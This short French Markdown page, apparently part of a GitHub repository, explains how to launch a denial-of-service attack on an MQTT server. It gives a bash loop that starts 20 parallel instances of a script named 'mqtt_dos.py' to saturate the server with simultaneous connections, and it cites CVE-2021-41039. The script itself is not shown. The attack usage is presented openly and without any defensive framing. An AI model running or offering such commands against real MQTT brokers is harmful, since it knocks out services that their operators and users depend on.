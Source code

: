 # Lancer plusieurs scripts en simultané

```bash
for i in {1..20}; do python3 mqtt_dos.py & done
```

Avec cette commande, on lance 20 instances du script `mqtt_dos.py` en parallèle. Cela permet de simuler un grand nombre de connexions simultanées au serveur MQTT, ce qui peut saturer le serveur et provoquer un déni de service.

--- 

Cette attaque se base sur la CVE-2021-41039.

https://nvd.nist.gov/vuln/detail/CVE-2021-41039